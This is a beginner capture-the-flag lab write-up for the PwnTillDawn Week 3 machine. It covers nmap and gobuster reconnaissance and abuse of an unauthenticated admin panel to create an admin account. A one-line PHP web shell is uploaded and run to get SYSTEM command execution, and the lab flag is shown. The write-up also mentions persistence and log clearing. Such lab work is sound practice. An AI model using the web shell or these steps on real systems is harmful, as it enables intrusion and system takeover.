





# 🛡️ PwnTillDawn Lab – Week 3 (Beginner) Write-up

## 📌 Objective
- Connect to the PwnTillDawn lab environment  
- Identify a vulnerable machine  
- Perform system hacking stages  
- Obtain proof of compromise (flag)  

---

## 🌐 Target Information

- Target IP: `10.150.150.11`  
- Environment: VPN (OpenVPN)  
- OS: Windows Server 2008 R2  
- Application: PwnDrive (Web-based file storage)  

---

## 🔍 1. Reconnaissance

Performed network discovery:

```bash
nmap -sn 10.150.150.0/24
````

---

## 🔎 2. Scanning

Performed service enumeration:

```bash
nmap -T4 -sC -sV 10.150.150.11
```

### Key Open Ports

```
80/tcp   open  http
443/tcp  open  https
445/tcp  open  smb
1433/tcp open  mssql
3306/tcp open  mysql
3389/tcp open  rdp
```

The presence of an HTTP service indicated a potential web-based attack surface.



---

## 🌐 3. Enumeration

Discovered hidden directories:

```bash
gobuster dir -u http://10.150.150.11 -w /usr/share/wordlists/dirb/common.txt
```

### Findings:

* `/admin/` → exposed admin panel
* `/upload/` → file upload functionality

---

## 🚪 4. Gaining Access

### 🔥 Broken Access Control

Admin panel accessible without authentication:

```
http://10.150.150.11/admin/
```



---

### 🧑‍💻 Created Admin User

Accessed:

```
/admin/addedituser.php
```

Created:

* Username: `test`
* Password: `test123`
* Role: `admin`

Successfully authenticated and gained access to the application dashboard.

---

## 💥 5. Exploitation (Remote Code Execution)

### 🔥 Insecure File Upload

Created web shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Uploaded via:

* Add File → shell.php



---

### ⚡ Remote Code Execution

Executed shell:

```
http://10.150.150.11/upload/11/shell.php?cmd=whoami
```

Output:

```
nt authority\system
```



---

## 🔐 6. Privilege Escalation

Not required. SYSTEM-level access was obtained directly.

---

## 🏁 7. Proof of Compromise (Flag)

Retrieved flag:

```
http://10.150.150.11/upload/11/shell.php?cmd=type C:\Users\Administrator\Desktop\FLAG1.txt
```

### Flag:

```
PwnTillDawnAcademyIsAwesome!!!
```



---

## 🧠 8. Maintain Access

* Persistent access via web shell
* Remote command execution capability

---

## 🧹 9. Clear Tracks

(Not executed, theoretical)

* Remove uploaded shell
* Delete created user
* Clear logs

---

## ⚠️ Vulnerabilities Identified

### 1. Broken Access Control

* Admin panel exposed without authentication

### 2. Insecure File Upload

* No validation of uploaded file types

### 3. Remote Code Execution (RCE)

* Uploaded PHP executed on server

---

## 💥 Impact

* Full system compromise
* SYSTEM-level access
* Arbitrary command execution

---

## 🧾 Conclusion

The system was critically vulnerable due to improper access control and insecure file handling.

Exploitation resulted in full system compromise with SYSTEM privileges and successful extraction of the flag.
